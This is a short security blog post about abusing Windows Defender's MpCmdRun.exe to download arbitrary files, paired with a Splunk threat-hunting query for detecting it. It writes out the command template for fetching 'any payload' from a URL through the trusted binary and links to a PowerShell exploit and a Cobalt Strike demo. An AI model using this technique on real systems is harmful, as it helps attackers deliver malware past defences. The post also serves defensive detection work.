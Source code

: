 ```yaml
---
title: Windows Defender official backdoor - Download files from Internet using "MpCmdRun.exe".
date: 2020-09-04 08:00:00 +07:00
tags: [windows, backdoor, download, defender]
description: Download any files from internet using "MpCmdRun.exe"
---
```


Recently I found interesting post in twitter, one of the security researcher(Askar) is identified, Microsoft Defender feature it can able to download any files from Internet.

Microsoft Defender is having one of the executable(MpCmdRun.exe) which is used as Malware protection command line utility. This executable having a feature which can take any URL as an input and download files in specific Windows Defender system files path.

##### Windows Defender File Path:
```batch
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2007.8-0\MpCmdRun.exe
```
#### More Info about MpCmdRun.exe binary:
[Detailed Info - MpCmdRun.exe](https://strontic.github.io/xcyclopedia/library/MpCmdRun.exe-73E18D56F42B16160008629E1C936311.html)

#### Windows Defender Command Line - MpCmdRun.exe (Download any payload)
```batch
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```
#### Quick & Dirty - Powershell Script - Exploit Code:
[Abuse Windows Defender - MpCmdRun.exe - Powershell code](https://gist.github.com/klezVirus/977f6cd9e4126103326f6a28700382d1)

#### Demo by using CobaltStrike:
<figure>
<img src="https://raw.githubusercontent.com/zer0trustsec/zer0trustsec.github.io/master/_posts/windowsdefender-official-backdoor-download-files-from-internet-mpcmdrun/cbstrike.jpeg" alt="Demo - CobaltStrike">
<figcaption>Demo - CobaltStrike</figcaption>
</figure>

#### BlueTeam - Threat Hunting / Quick & Dirty Detection:
```batch
Commandhistoryv2 _raw="*Download*" OR _raw="*URL*" OR _raw="*url*" OR _raw="*download*" OR _raw="*http://*" OR _raw="*https://*" OR _raw="*HTTP://*" OR _raw="*HTTPS://*"
| dedup CommandHistory
| table ComputerName ApplicationName CommandHistory FileName
```
#### BlueTeam - Splunk Detection:
<figure>
<img src="https://raw.githubusercontent.com/zer0trustsec/zer0trustsec.github.io/master/_posts/windowsdefender-official-backdoor-download-files-from-internet-mpcmdrun/splunk.png" alt="Splunk hunting">
<figcaption>Splunk - Hunting</figcaption>
</figure>


#### References
- [Twitter Post](https://twitter.com/mohammadaskar2/status/1301263551638761477)
